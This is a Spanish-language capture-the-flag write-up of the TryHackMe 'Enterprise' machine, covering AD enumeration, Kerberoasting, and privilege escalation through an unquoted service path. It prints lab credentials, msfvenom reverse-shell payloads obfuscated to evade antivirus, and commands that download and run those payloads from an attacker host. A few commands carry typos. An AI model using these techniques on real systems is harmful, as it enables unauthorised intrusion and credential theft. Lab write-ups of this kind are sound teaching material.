

Dificultad -> Hard

Enlace a la máquina -> [TryHackme](https://tryhackme.com/room/enterprise)

-----------
## WriteUp Enterprise

Una vez conectados mediante VPN a TryHackme y haber iniciado la máquina, como siempre, vamos a empezar comprobando la conectividad con la máquina víctima. Para ello, vamos a utilizar ping y el siguiente comando

```bash
ping -c 1 [IPObjetivo]
```


Tal y como vemos, enviamos un paquete y recibimos un paquete, lo que significa que la máquina está activa y tenemos alcance con ella. Además, fijándonos en el valor del TTL, podemos intuir ante que nos estamos enfrentando. Es cierto que este valor puede ser alterado, pero por lo general, si este valor es de 64 o una cifra cercana, podremos pensar que estamos ante un Linux. Si este valor es de 128 o una cifra similar, podemos intuir que estamos ante un Windows. 

Altamente recomendable o yo diría que casi obligatorio, crearnos nuestros directorios de trabajo, de forma que nos permita organizar bien las evidencias y los pasos que hemos ido dando. Con mkdir nos podemos crear los directorios nmap, content y exploit, para ir empezando. Nos metemos en el directorio nmap y vamos a empezar con la fase de reconocimiento y enumeración. 

```bash
sudo nmap -p- --open -sS -vvv -n -Pn [IPobjetivo] -oN [Archivo]
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oN* Genera un archivo de salida en formato nmap, con el nombre que le hayamos especificado

Vemos muchos puertos abiertos. Que no cunda el pánico. Muchos de ellos ya deberían sonarnos o deberíamos estar familiarizados con ellos. De hecho, viendo todos estos puertos, ya podemos intuir que seguramente nos estaremos enfrentando a una máquina de Active Directory.


Para no tener que escribir todos estos puertos de forma manual en el segundo escaneo de nmap, lo que podemos hacer es crearnos nuestro propio script, que extraiga estos puertos y nos los pegue. Si no queremos hacer esto, también podemos utilizar el siguiente comando, que nos los va a extraer y mostrar en la salida de consola a partir del archivo generado anteriormente; y simplemente tendremos que copiarlos y pegarlos. 

```bash
grep '^[0-9]' <Nombre_archivo> | cut -d '/' -f1 | sort -nu | xargs | tr ' ' ','
```


Ahora vamos a volver a tirar de nmap, para realizar un segundo escaneo de la versión de los servicios que corren en cada uno de estos puertos; así como para lanzar un conjunto de scripts básicos de reconocimiento que nos permitan enumerar mejor este objetivo. 


```bash
sudo nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```


Algo importante en este reporte de nmap en lo que debemos fijarnos, es ver si aparece algún nombre de dominio o algo similar. algo importante, son los nombres de dominio DNS que hemos ido encontrando. Son varios los que tendremos que agregar a nuestro archivo /etc/hosts.

```
enterprise.thm
lab.enterprise.thm
lab-dc.enterprise.thm
```

```bash
echo "[IPObjetivo] enterprise.thm lab.enterprise.thm lab-dc.enterprise.thm" >> /etc/hosts
```
O igualmente podemos hacerlo de esta forma 

```bash
echo -e '[IP_Objetivo]\tenterprise.thm lab.enterprise.thm lab-dc.enterprise.thm' | sudo tee -a /etc/hosts
```


Ahora ¿Qué podemos hacer? pues bueno, podemos tratar de hacer muchas cosas. Algo que podemos hacer es revisar el puerto 88 (Kerberos) o empezar revisando el puerto 445 de SMB, pero antes si tal podemos revisar otras cosas para no saltarnos quizás nada importante. Por lo tanto, podemos empezar quizás revisando el puerto 80.

Como enumeración básica, siempre lanzamos whatweb, para ver qué tecnologías corren por detrás del sitio web.

```bash
whatweb http://[IPObjetivo]
```

No nos reportará nada interesante. Podemos igualmente ver lo mismo con la extensión Wappalyzer desde el propio navegador. Al visitar el sitio web, simplemente veremos la siguiente imagen.


De resto, podemos investigar el código fuente, pero no encontraremos nada. Podemos lanzar tambien nmap y gobuster para realizar Fuzzing Web y tratar de encontrar directorios ocultos.

```bash
nmap --script http-enum -sV -p80 [IPObjetivo]
```

```bash
gobuster dir -u http://[IPObjetivo]:80 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x txt,php -t 30 -o hidden_directory
```
Lo único interesante que encontraremos por esta vía es lo siguiente en el archivo robots.txt

```bash
curl http://[IPObjetivo]/robots.txt
```


Al no encontrar nada interesante, vamos a pasar a revisar otros puertos y servicios. Vamos por ejemplo a por el puerto 445 SMB.

Por alguna razón que no entiendo, smbmap no funciona, por lo que tendremos que tirar de smbclient. Igualmente podemos tirar de enum4linux, pero es recomendable utilizarlo ya en última instancia, y primero utilizar otras herramientas

```bash
smbclient -L [IPObjetivo] -N
```


Vemos varios recursos compartidos, pero no sabemos los permisos que tenemos para cada uno de ellos. Por lo que en este caso, tendremos que revisarlos todos a ver qué encontramos.

```bash
smbclient //[IPobjetivo/Recurso] -N
```

Para el Recurso Docs, si que tenemos permisos de lectura y vemos dos archivos interesantes que pasaremos a descargar a nuestro equipo.


Ya con estos archivos en nuestro equipo, si le hacemos un file para ver de que se trata, podemos ver que se trata de documentos Excel (.xlsx) y Word (.docx) concretamente. Y que además están cifrados usando el formato CDFV2 (Compound Document File Version 2).


Como decíamos estos documentos están encriptados, pero podríamos tratar de aplicar fuerza bruta con herramientas como office2john.py, el propio john o incluso hashcat, pero no conseguiremos nada así o yo al menos no he conseguido hacerlo. El procedimiento sería así. Primero con office2john, le pasamos los archivos para que nos extraiga los hashes de ambos y nos los guarde en el archivo office_hashes.txt. Luego podemos emplear estos hashes para crackearlos con john o hashcat, pero como decíamos el objetivo de este CTF no va por aquí y no conseguiremos nada así.

```bash
office2john RSA-Secured-Credentials.xlsx RSA-Secured-Document-PII.docx > office_hashes.txt
```


Por otra parte, también tenemos permisos de lectura en el recurso Users

```bash
smbclient //[IPobjetivo/Recurso] -N
```


Como vemos, dentro del Recurso Users, hay muchos directorios y supongo que archivos, por lo que para trabajar de forma más práctica, vamos a descargarlo todo a nuestro equipo

```
recurse ON
prompt OFF
mget *
```
Esto nos va a descargar de forma recursiva todos los archivos. Al volver a nuestro equipo, tendremos todas las carpetas descargadas. Lo que vamos a hacer, es crearnos un directorio llamado Smb_Users y meter en él todos los archivos descargados de este Recurso compartido Users.


Ahora nos metemos en el directorio Smb_users y con tree, vamos a ver de forma rápida que contiene.

```bash
tree
```


Lo bueno de tree, es que nos va a mostrar de forma bastante esquemática y rápida los directorios, subdirectorios y archivos dentro del directorio actual. Vemos que hay muchos archivos, concretamente 136 directorios y 111 archivos. Si queremos saber el número de archivos que hay en un directorio concreto, podemos también ejecutar el siguiente comando

```bash
find . | wc -l
```

De hecho, podemos también ejecutar ranger, que también nos lo va a mostrar de una forma bastante ágil.

```bash
ranger
```

Bueno, pues examinando un poco por encima los archivos descargados en este caso con ranger, encontramos algo interesante en la siguiente ruta

```
LAB-ADMIN/AppData/Roaming/Microsoft/Windows/Powershell/PSReadline/Consolehost_hisory.txt
```


Lo destable de esta captura, que parece ser algo así como el  bash_history de Windows, es que encontramos lo que parece ser unas credenciales que han sido sido guardadas en el archivo private.txt. Estas credenciales son las siguientes

```
Usuario:replication
Contraseña: 101RepAdmin123!!
```

Pues bueno, como es lógico, probamos estas credenciales en varios servicios, SMB, RDP, etc, pero no nos sirven.

En este punto, decidimos revisar el puerto 7990, en el que también corría un Servidor Web y veremos lo siguiente

```
http://[IPObjetivo]:7990
```


Nos piden un correo, pero de momento no tenemos nada. En este punto, hay varias formas de hacer las cosas. Vamos a ver varios métodos.

El primer método, es tirar de Kerbrute, para intentar encontrar usuarios válidos en el dominio con un ataque de fuerza bruta. Recordemos que el puerto 88 Kerberos estaba abierto. Para ello, ejecutamos el siguiente comando

```bash
kerbrute userenum -d lab.enterprise.thm --dc [IPObjetivo] /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -o kerbrute_users.txt
```

Si ahora le damos un formato correcto con el siguiente comando y guardamos los resultados en el archivo users_valid.txt, podremos ver los resultados

```bash
cat kerbrute_users.txt | awk -F ' ' '{print $7}' > users_valid.txt
```


Tal y como vemos, tenemos una lista de posibles usuarios, con la que podemos ya empezar a hacer cositas. Pero de momento, vamos a seguir enumerando.

El segundo método, es prestar un poco más de atención al mensaje de Atlassian "Reminder to all Enterprise-THM Employees: We are moving to Github!" Pues bueno, en este punto lo que podemos hacer es un poco de OSINT y desde Google ver si hay alguna cuenta de Github.

```
"enterprise-thm" site:github.com
```



Pues bueno, investigando un poco esta cuenta de Github, vamos a descubrir algo bastante interesante. Los pasos a seguir son los siguientes. Pinchamos sobre People y encontraremos un perfil personal llamado Nik-enterprise-dev, que parece ser un perfil de desarrollador. De hecho, este nombre ya nos debe de sonar porque lo hemos visto en la lista de usuarios que nos ha encontrado kerbrute. Pues bueno, en la cuenta de este usuario, existe un repositorio llamado mgmtScript.ps1. Si le echamos un vistazo, no encontraremos nada raro ya que las credenciales están ocultas. Pero si revisamos el History y pinchamos sobre una publicación anterior, podremos ver en texto claro las credenciales.


```
Usuario: nik
Contraseña: ToastyBoi!
```

Con estas credenciales, podemos probar si nos sirven para SMB, RDP, WinRM, etc. En SMB nos servirá, pero tendremos los mismos permisos que el usuario NULL, por lo que poco vamos a averiguar. Lo que vamos a hacer, por lo tanto, es utilizar estas credenciales para enumerar un poco más los usuarios de la máquina con rpcclient.

```bash
rpcclient -U [usuario] [IPObjetivo]
```

Utilizamos los siguientes comandos para enumerar

```
enumdomusers --> Enumerar Usuarios
enumdomgroups --> Enumerar Grupos
netshareenum --> Enumerar Recursos
``` 


Tal y como vemos, seguimos enumerando usuarios y grupos, muchos de los cuales se corresponden con los usuarios encontrados por Kerbrute. Vamos a seguir enumerando un poquito, en esta ocasión mediante LDAP por el puerto 389, empleando para ello ldapdomaindump

```bash
ldapdomaindump -u "lab.enterp1rise.thm\\nik" -p "ToastyBoi\!" [IPObjetivo]
```


Si nos abrimos el archivo domain_users.html podremos ver cosas interesantes.

```bash
firefox domain_users.html
```


Nos llama la atención el usuario "contractor". Parece que tenemos sus credenciales en texto claro.


Si las probamos veremos que si que son válidas, pero no nos llevarán a nada que no sepamos hasta ahora.
Si seguimos revisando cosas, también nos llama la atención que el único usuario que se puede conectar mediante RDP, es el usuario "BitBucker". Esto es interesante.


En este punto, decidimos volver nuestra atención al usuario nik, para el cual si que tenemos credenciales. Lo que vamos a hacer, es intentar un ataque llamado Kerberoasting.
Este tipo de ataque es una técnica común en pruebas de penetración contra entornos de Active Directory. El ataque consiste básicamente en solicitar el TGS de un servicio (que tiene un SPN configurado) y se intenta descifrar el ticket offline para obtener la contraseña del usuario que administra el servicio. El TGS (Ticket Granting Service) es un ticket que permite a un usuario autenticado acceder a servicios en el dominio. Este ticket está cifrado con el hash de la contraseña del servicio asociado al SPN. El SPN (Service Principal Name) es un identificador único que se asocia con un servicio en un servidor dentro del dominio.
Los pasos a seguir para realizar esta técnica son los siguientes:
- Identificación de Usuarios con SPNs configurados --> Algunos usuarios en el dominio pueden tener servicios asociados a ellos a través de un SPN. Esto significa que son responsables de gestionar ese servicio (como un servidor web o una base de datos). Herramientas como GetUserSPNs.py nos permiten buscar estos usuarios. Este paso identifica las cuentas de servicios que son objetivos potenciales para un ataque Kerberoasting.
- Solicitud del TGS --> Una vez que sabemos qué usuarios tienen SPNs, podemos solicitar un TGS para esos servicios al KDC (Key Distribution Center), que es parte del controlador de dominio. El TGS está cifrado con el hash de la contraseña del usuario asociado al SPN. Esto significa que si obtenemos el TGS, podríamos descifrarlo offline para intentar recuperar esa contraseña.
- Extracción del TGS --> La herramienta GetUserSPNs.py no solo identifica usuarios con SPNs, sino que también permite solicitar los TGS asociados a esos SPNs. Los tickets extraídos se guardan en un archivo (normalmente en formato .kirbi)
- Ataque Offline al TGS --> Una vez que tenemos el TGS, podemos usar herramientas como hashcat o john the Ripper para intentar descifrarlo offline. Esto significa que no necesitamos interactuar con el controlador de dominio mientras intentamos romper el cifrado del ticket. ¿Por qué es posible? Porque el TGS está cifrado con el hash de la contraseña del usuario asociado al SPN. Si la contraseña es débil, podemos descifrar el ticket y obtener el hash o la contraseña en texto claro.
- Obtención de la Contraseña --> Si logramos descifrar el TGS, obtendremos la contraseña del usuario que gestiona el servicio. Esta contraseña podría ser utilizada para escalar privilegios (si el usuario tiene privilegios elevados), acceder al servicio asociado a SPN, realizar movimientos laterales dentro del dominio, etc.

A continuación, veremos si algún usuario tiene configurado el SPN . Si es así, podemos solicitar la clave TGS , ya que formamos parte del dominio con las credenciales que tenemos. La clave TGS está cifrada con el hash de la contraseña del servicio. Por lo tanto, si pudiéramos descifrarla, podríamos obtener la contraseña del usuario. Para esta tarea, utilizaremos la herramienta GetUserSPNs.py

```bash
impacket-GetUserSPNs lab.enterprise.thm/nik:ToastyBoi!
```


Como se puede ver, el usuario bitbucket tiene configurado el SPN. Por lo tanto, ahora podemos solicitar TGS e intentar descifrarlo.

```bash
impacket-GetUserSPNs lab.enterprise.thm/nik:ToastyBoi! -request -o bitbucket_hash.txt
```

Tenemos el hash del usuario BitBucker, en el archivo bitbucket_hash.txt


¿Qué hacemos ahora con este hash? Pues bueno, como comentábamos arriba, vamos a tratar de crackearlo utilizando john y hascat. Pero antes, obviamente, tendremos que averiguar qué tipo de hash es. ¿Cómo hacemos esto? Pues bueno, tenemos a nuestra disposición la propia página wiki de hashcat.

```
https://hashcat.net/wiki/doku.php?id=example_hashes
```


Una vez tenemos identificado el tipo de Hash que se está empleando, podemos pasar a crackearlo como decíamos utilizando bien o hashcat, o bien john the Ripper.

Si decidimos utilizar hashcat, utilizaremos el siguiente comando

```bash
hashcat -m 13100 -a 0 bitbucket_hash.txt /usr/share/wordlists/rockyou.txt -o password_bitbucket.txt
```


Si queremos crackear el hash con john, podemos utilizar el siguiente comando

```bash
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt bitbucket_hash.txt
```


```
Usuario: bitbucket
Contraseña: littleredbucket
```

¿Qué podemos hacer con estas credenciales? Pues bueno, recordemos que antes vimos que el único usuario que podía conectarse mediante RDP al equipo objetivo, era el usuario bitbucket. Pues vamos a ganar acceso al sistema mediante este servicio. Ya sabemos que podemos utilizar tanto rdesktop como xfreerdp

```bash
rdesktop -u [Usuario] -p [Contraseña] [IPObjetivo]:[Puerto]
```

```bash
xfreerdp /u:[Usuario] /p:[Contraeña] /v:[IPObjetivo]:[Puerto]
```


En el escritorio, encontraremos un archivo llamado user, que si lo abrimos, tendremos la flag de usuario.

Una de las primeras cosas que me gusta hacer al ganar acceso a un equipo Windows, es ejecutar el siguiente comando 

```powershell
Get-MpComputerStatus
```


El comando Get-MpComputerStatus, es parte del módulo Defender en PowerShell y proporciona detalles sobre el estado del antivirus de Windows (Microsoft Defender) y sus componentes relacionados.
Podemos observar que el sistema está potencialmente vulnerable. Obviamente, es normal en este caso, puesto que estamos en un entorno de pruebas. 

Parece que tienen detenido el Windows Defender y si revisamos los procesos no encontraremos ningún otro software antivirus instalado. Podemos también revisar si el firewall está desactivado.

```
# For firewall
netsh firewall show config
netsh firewall show state
```

Lo siguiente que vamos a hacer, es establecer una puerta trasera. Para ello, vamos a ir a una ruta que no sean muy sospechosa, por ejemplo la siguiente ruta

```
C:\Users\bitbucket\Appdata\Local\VirtualStore
```

En nuestro Kali, vamos a crear con msfvenom, un payload para que nos de una sesión de tipo Meterpreter en este caso.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=443 -f exe -e x84/shikata_ga_nai -i 127 > executeme.exe
```

En esta ocasión, hemos metido una serie de parámetros nuevos que vamos a pasar a explicar. Con el parámetro -e le estamos indicando que vamos a utilizar un codificador para ofuscar el payload. x84/shikata_ga_nai es un codificador que cifra el payload varias veces con un algoritmo polimórfico. Esto hace que el archivo malicioso sea más difícil de detectar. Por último con -i 127, le indicamos el número de veces que el payload será codificado. Esto incrementará la complejidad del archivo y reducirá aún más la probabilidad de detección. El nombre de este ejecutable malicioso será executeme.exe


Ahora con python, creamos un servidor web para transferir este archivo al equipo objetivo.

```bash
python3 -m http.server 8080
```

Ahora en el equipo objetivo, ejecutamos el siguiente comando para descargar el ejecutable executeme.exe. Recordar, hacerlo bajo el directorio al que nos cambiamos antes para pasar más desapercibidos.

```
cd C:\Users\bitbucket\Appdata\Local\VirtualStore
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[IPAtacante]:8080/executeme.exe', 'C:\Users\bitbucket\AppData\Local\VirtualStore\executeme.exe')"
```

```
También podemos utilizar el siguiente comando. Sea como sea que lo hagamos, tendremos el archivo executeme.exe en el equipo objetivo listo para ser ejecutado.

```
Invoke-WebRequest -Uri "http://[IPAtacante]:8080/executeme.exe" -OutFile "C:\Users\bitbucket\AppData\Local\VirtualStore\executeme.exe"
```


Para ponernos en escucha, utilizaremos Metasploit (al hacerlo con un payload tipo Shell y netcat no se por qué daba fallo) 

```bash
msfconsole -q 
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [IPAtacante]
set LPORT 443
run
```

Y ahora simplemente, ejecutamos el .exe en la sesión de Windows. 

```
.\executeme.exe
```

Si volvemos a nuestra sesión de Metasploit  veremos que tenemos una sesión Meterpreter en la que estamos conectados al equipo objetivo como el usuario LAB-ENTERPRISE\bitbucket. En Meterpreter,ejecutamos los siguientes comandos. 

```
getuid
ipconfig
```


Ya con esto, podemos cerrar RDP sin ningún problema y operar desde esta sesión de Meterpreter

Para elevar nuestros privilegios, vamos a utilizar winPEAS.exe. Para tenerlo en nuestro Kali, utilizaremos estos comandos

```bash
git clone https://github.com/carlospolop/PEASS-ng.git
cd PEASS-ng/winPEAS/winPEASps1
```


Nos montamos un servidor web con python por el puerto 8080

```bash
python3 -m http.server 8080
```

Ahora en la sesión de Meterpreter ejecutamos los siguientes comandos para tener una PowerShell

```
shell
powershell
```

Y ahora ejecutamos el siguiente comando para descargar el script winPEAS.ps1

```
Invoke-WebRequest -Uri "http://10.8.213.110:8080/winPEAS.ps1" -OutFile "C:\Users\bitbucket\AppData\Local\VirtualStore\winPEAS.ps1"
``` 


Ya con winPEAS.ps1 en el equipo objetivo, vamos a ejecutarlo para que nos detecte posibles vulnerabilidades.

Si lo ejecutamos, no nos mostrará los resultados con colorines, así que lo que vamos a hacer es activar esta función.

```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

```
.\winPEAS.ps1 | Out-File -FilePath .\winPEAS_result.txt
```

Si en lugar de trabajar en PowerShell, vamos a trabajar en cmd, nos descargamos el ejecutable .exe. Podemos descargarlo en el siguiente enlace

```
https://github.com/peass-ng/PEASS-ng/releases/tag/20240526-eac1a3fa
```

Descargaremos la versión winPEASx64.exe por ejemplo. Ahora toca pasar este archivo al equipo víctima.

```bash
python3 -m http.server [Puerto]
```

Lo descargamos en el equipo víctima por ejemplo con certutil

```
certutil -f -urlcache http://[IPAtacante]:8080/[Archivo] [NombreNuevo]
```

Ya en el equipo víctima, lo ejecutamos. Generalmente cuando ejecutamos winPEAS lo ejecutaremos sin parámetros para ejecutar todas las comprobaciones y luego revisaremos toda la salida línea por línea. Un buen truco al ejecutar el análisis completo es redirigir la salida de winPEAS a un archivo y luego enviarlo de regreso a nuestra máquina atacante para un análisis rápido de vulnerabilidades comunes usando grep.

```
winPEASx64.exe > winPEAS_result.txt
```

Aprovechando que tenemos el servicio SMB expuesto, podemos mover el archivo winPEAS_result.txt al directorio del usuario Bitbucket y mediante smbclient, descargarlo a nuestro equipo

```
move winPEAS_result.txt C:\Users\Bitbucket
```

Ahora con smbclient nos descargamos el archivo winPEAS_result.txt

```bash
smbclient //[IPObjetivo]/Users -U bitbucket
ls
cd bitbucket\
get winPEAS_result.txt
```


Ya con los resultados, winPEAS nos está detectando una posible vulnerabilidad en el sistema relacionada con el servicio ZeroTierOne.exe y las configuraciones inseguras que pueden ser explotadas en este caso. Como decíamos el servicio ZeroTier se encarga de gestionar la red de ZeroTier, que es una tecnología de red definida por software (SDN) que permite crear redes privadas.
Vemos también que el servicio se ejecuta desde el archivo ZeroTier One.exe que se encuentra en la siguiente ruta

```
C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
```

También podemos ver que está configurado para iniciarse de forma automática con el sistema (auto-start), pero actualmente está detenido.
Otra cosa importante que nos llama la atención es "No quotes and Space detected". Esto viene a indicarnos que la ruta del ejecutable ZeroTier One.exe no está entre comillas y contiene espacios. Este es un punto crítico porque Windows puede interpretar de manera incorrecta las rutas con espacios si no están entre comillas. Esto es una vulnerabilidad de seguridad conocida como "Unquoted Service Path"
En cuanto a los permisos también vemos cosas bastante interesantes. La carpeta donde se encuentra ZeroTier One.exe tiene permisos de escritura para los usuarios. Esto significa que los usuarios del sistema pueden escribir datos y crear archivos dentro de la carpeta "C:\Program Files (x86)\Zero Tier\Zero Tier One". Esto claramente es un riesgo. Estos permisos de escritura son problemáticos porque un atacante con acceso a la máquina podría colocar archivos maliciosos en esa carpeta, lo que podría comprometer el sistema. Por ejemplo se podría colocar una DLL maliciosa o un archivo ejecutable con el nombre adecuado para sobrescribir un archivo legítimo o causar que se ejecute código malicioso. DLL Hijacking es una vulnerabilidad que ocurre cuando un atacante coloca una DLL maliciosa en una carpeta donde el sistema o una aplicación espera encontrar una DLL legítima. En este caso, el informe está sugiriendo que debido a los permisos de escritura para los usuarios en la carpeta de ZeroTier One, existe el riesgo de que un atacante pueda colocar una DLL maliciosa en esa ubicación. Cuando ZeroTier One.exe se ejecute, podría intentar cargar una DLL de esa carpeta, y si la DLL maliciosa se encuentra en la misma carpeta, el sistema podría cargar esa DLL maliciosa en lugar de la legítima, permitiendo la ejecución de código no autorizado. Este es un vector de ataque comúnmente explotado en DLL Hijacking.

En resumen, tenemos los siguientes campos de actuación:

Ruta no citada y con espacios --> La ruta donde reside el ejecutable, tiene espacios y no está entre comillas. Esto es una vulnerabilidad de Unquoted Service Path, lo que significa que un atacante podría manipular la ejecución del servicio colocando un archivo malicioso en el sistema.
Permisos de Escritura --> El directorio donde se encuentra ZeroTier One.exe tiene permisos de escritura para los usuarios, lo que permite que los atacantes coloquen archivos maliciosos en esa carpeta.
Posible DDL Hijacking --> La combinación de los permisos de escritura y la vulnerabilidad de la ruta no citada (Unquoted Service Path) podría permitir que un atacante coloque una DLL maliciosa en la carpeta del servicio y que se cargue en lugar de las DLL legítimas, explotando la vulnerabilidad de DLL Hijacking.
Si vamos a la ruta mencionada, y probamos a crear un directorio llamado test por ejemplo, veremos que efectivamente tenemos permisos de escritura

```
cd C:\Program Files (x86)\Zero Tier\Zero Tier One\
mkdir test
dir
```


Pues bueno, la idea está clara ¿no? Crearemos un ejecutable con msfvenom que nos de una Reverse Shell como NT/AUTHORITY SYSTEM si se está ejecutando como tal, así que hagámoslo. Lo haremos con Metasploit,para luego transferir más rápidamente el ejecutable al equipo víctima con upload, pero igualmente lo podemos crear el payload de tipo Shell sin ningún problema y transferirlo con un servidor web que nos montemos con Python

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[IPObjetivo] LPORT=443 -f exe-service -o Zero.exe
```


Ahora vamos a transferirlo al equipo objetivo. Como tenemos una sesión de tipo Meterpreter,podemos tirar del siguiente comando, más cómodo 

```
upload /home/shenmue/Escritorio/TryHackme/Enterprise/exploits/Zero.exe "C:/Program Files (x86)/Zero Tier/Zero.exe"
```


Tenemos nuestro Payload en el equipo objetivo. Ahora tenemos que iniciar el servicio y ponernos en escucha por Metasploit

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [IPObjetivo]
set LPORT 443
run
```

Y por último, en el equipo Windows, ejecutamos estos comandos 

```
sc start "zerotieroneservice"
Stop-Service -name "zerotieroneservice"
Start-Service -name "zerotieroneservice"
```

Simplemente lo que hemos hecho, es iniciar, detener y volver a iniciar el servicio ZeroTier. Si volvemos a nuestra sesión de Metasploit, obtendremos una sesión Meterpreter como el usuario NT AUTHORITY\SYSTEM


En este punto, ya solo nos quedaría buscar la Flag de root y dar por finaliza esta interesante máquina.

Simplemente iremos al siguiente directorio y le haremos un type al archivo root.txt

```
shell
cd C:\Users\Administrator\Desktop\
type root.txt
```


